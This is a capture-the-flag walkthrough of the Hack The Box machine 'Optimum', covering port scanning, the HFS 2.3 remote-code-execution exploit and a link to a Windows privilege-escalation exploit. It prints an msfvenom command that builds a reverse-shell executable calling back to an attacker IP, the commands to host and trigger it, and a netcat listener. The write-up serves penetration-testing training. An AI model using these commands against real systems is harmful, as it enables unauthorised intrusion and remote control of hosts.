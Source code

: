 # Box: Optimum
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A -T4 -v -p- 10.129.111.57```

```
Nmap scan report for 10.129.111.57
Host is up (0.20s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.015 days (since Sun Sep 17 16:46:43 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   197.31 ms 10.10.14.1
2   197.47 ms 10.129.111.57

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 17 17:07:49 2023 -- 1 IP address (1 host up) scanned in 778.27 seconds
```
From the above scan, we have only 1 open port and that's the port that runs the http service. This means our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf65020f-9ec8-4168-8321-c1fbb958b182)

This webpage is being hosted by ```HttpFileServer```. 

I think there's an exploit for this version of ```HttpFileServer```, well lets check

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe5acce-0ed1-4c83-91a3-eed36f756e5f)

Well there is😅. Lets exploit right away



# Exploitation

Well, I found this great exploit, you can download it [here](https://www.exploit-db.com/exploits/39161)

So, we'll set the ```LHOST``` to our tun0 ip, we'll also set the ```LPORT``` to the port we plan on listening on

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/de36cb6b-4ff8-4fc4-a752-ca27abd72924)

Save the script.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/21bb23c8-3b48-4005-97d5-6ebc0b50c93d)

As per the instruction in the script, we were told to host a ```nc.exe``` file, well I generated the ```.exe``` file using msfvenom

command:```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/optimum]                                                                                                                                             
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe                                                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: nc.exe
```
Ensure you have your netcat listener ready before running the script

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35697632-7b3e-4ef6-a9f3-c6e3b673af51)

Running the script requires the target's ip and port

command:```python2 39161.py 10.129.58.117 80```

Alongside running this script, we'll host the ```nc.exe``` file

command:```python3 -m http.server 80```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5b672fd6-0647-4542-85b7-ea610ab8a276)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f9625a2-cadc-4c0d-aa9f-c5b27dddfd01)

We didn't spawn a shell🥲, running the script again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0b69eaaf-5c0c-43dd-a51f-967ee0e70029)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae181f7e-1f08-435b-be9d-878565aa2d11)

We got a user shell🙂. Lets go ahead and escalate our privileges.



# Privilege Escalation

Running the ```systeminfo``` command, I found something interesting

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b58931ff-6670-4ec3-ab48-fb7ae352017d)

Well, that os version has a vulnerability that can assist us in escalatiing our privileges. 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e89a4685-f2bc-4a1b-b559-0cd239244148)

You can get the exploit [here](https://www.exploit-db.com/exploits/41020)










